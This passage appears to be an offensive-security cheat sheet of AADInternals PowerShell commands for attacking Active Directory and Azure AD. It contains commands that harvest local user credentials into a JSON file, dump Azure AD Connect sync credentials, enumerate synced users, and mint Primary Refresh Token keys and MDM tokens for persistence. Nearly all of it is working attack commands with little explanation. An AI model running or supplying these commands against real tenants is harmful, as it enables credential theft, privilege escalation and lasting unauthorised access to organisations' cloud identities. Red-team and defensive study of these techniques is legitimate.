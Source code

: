 ```powershell
 $output.LocalUserCredentials = Get-AADIntLocalUserCredentials -UserName $user -MasterKeys $user_masterkeys
 # Save output to file
 $output | ConvertTo-Json | Out-File -Encoding utf8 -FilePath "./CredHarvest.json"
```


## Domain Escalation into Azure from AD Admin

### AADINternals-Get Sync Creds
```powershell
Get-AADIntSyncCredentials
Get-AADIntSyncCredentials > ADSyncCreds.json
```

### AADINternals - Modifying Users
#### Save the credentials to a variable
```powershell
$creds=Get-Credential 
#### Get an access token and save to cache
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
#### List the sync objects w/ OnPrem Values
Get-AADIntSyncObjects | Select UserPrincipalName,SourceAnchor,CloudAnchor | Sort UserPrincipalName
#### List the Azure AD users
Get-AADIntUsers | Select UserPrincipalName,ImmutableId,ObjectId | Sort UserPrincipalName
```


## Persistence

### https://aadinternals.com/aadinternals/#hack-functions-active-directory

### AADInternals - Join w/ New PRT Token using current session info
```powershell
# Get user's credentials
$creds = Get-Credential
# Get new PRT and key
$prtKeys = Get-AADIntUserPRTKeys -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -Credentials $cred
$prtKeys > PrtKeys.json
```

### New MDM keys / cert with PRT
```powershell
# Get an access token for MDM and save to cache
Get-AADIntAccessTokenForIntuneMDM -SaveToCache
# Get new PRT and key
$prtKeys = Get-AADIntUserPRTKeys -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -UseRefreshToken
```
